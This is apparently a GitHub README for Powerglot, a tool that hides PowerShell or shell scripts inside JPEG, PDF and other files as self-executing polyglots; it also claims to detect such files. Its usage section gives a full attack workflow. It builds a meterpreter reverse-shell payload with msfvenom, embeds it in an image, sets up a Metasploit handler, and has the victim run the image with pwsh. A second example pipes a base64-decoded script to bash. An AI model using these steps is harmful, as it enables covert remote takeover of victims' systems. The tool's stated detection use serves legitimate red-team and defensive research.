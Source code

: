 # Powerglot
Powerglot encodes an auto-run powershell script using polyglots. A loader is not needed.

In red-team exercises or offensive tasks, the masking of payloads is usually done by using steganography, especially to avoid network level protections, being one of the most common payloads scripts in powershell. Recent malware and APTs make use of some of these capabilities: APT32, APT37, Ursnif, Powload, LightNeuron/Turla, Platinum APT, Waterbug/Turla, Lokibot, The dukes (operation Ghost), Titanium, etc.

Powerglot is a multifunctional attack and defense tool based on polyglots. Powerglot allows to mask a script (powershell, shellscripting, php, ...) in a digital image. Unlike the usual offensive tools or malware, Powerglot does not need any loader to execute the "information hidden", minimizing the noise on the target system.

PowerGlot has a clear utility in offensive tasks but it is also defined as a discovery and blue team tool. To our knowledge, it is the first open-source tool that allows to search for the presence of masked information in polyglots, information that could be useful to achieve persistence in a system or to hide malware

Features:

1. Encode powershell/shell script in a image using steganography, difficulting its detection. It is not necessay a loader. The image is a polyglot. 
To execute the image allows to execute another code (polyglot) to recover/execute the hidden information (payload).

2. PowerGlot works with several formats. Mainly, JPEG format.

3. Powerglot is the first open-source tool to detect (malicious) polyglots, specially the result of some public tools as Truepolyglot or stegoSploit. 
We works in several formats: JPEG, PNG, GIF, BMP, ZIP, PDF, MP3, etc.

# Installation

# Usage & Parameters

```
# SERVER
# Prepare the payload and configure the server to receive a meterpreter connection

# msfvenom --payload windows/x64/meterpreter_reverse_http --format psh --out meterpreter.ps1 LHOST=<IP> LPORT=<PORT>
# python3 powerglot.py -o meterpreter.ps1 cat.jpg cat-o.jpg
# Check correct JPEG format
  #file cat-o.jpg
  # feh cat-o.jpg

msf > use exploit/multi/handler msf exploit(multi/handler) > set payload windows/meterpreter_reverse_http payload => windows/meterpreter_reverse_http msf exploit(multi/handler) > set lhost <IP> lhost => <IP> msf exploit(multi/handler) > set lport <PORT> lport => <PORT> msf exploit(multi/handler) > exploit

# LINUX VICTIM
# Download cat-o.jpg
# Execute 
# pwsh cat-o.jpg or cat cat-o.jpg | pwsd
```

```
# Polyglot in PDF
#base64 payload.sh (example linenum.sh)
#Create script.sh
echo "fasdfafdafdf=" | base64 .d | bash

#python3 powerglot -o script.sh file.pdf file-1.pdf
```



# Future work. Doing

# Author & license

This project has been developed by Dr. Alfonso Muñoz and Abraham Pasamar. The code is released under the GNU General Public License v3.


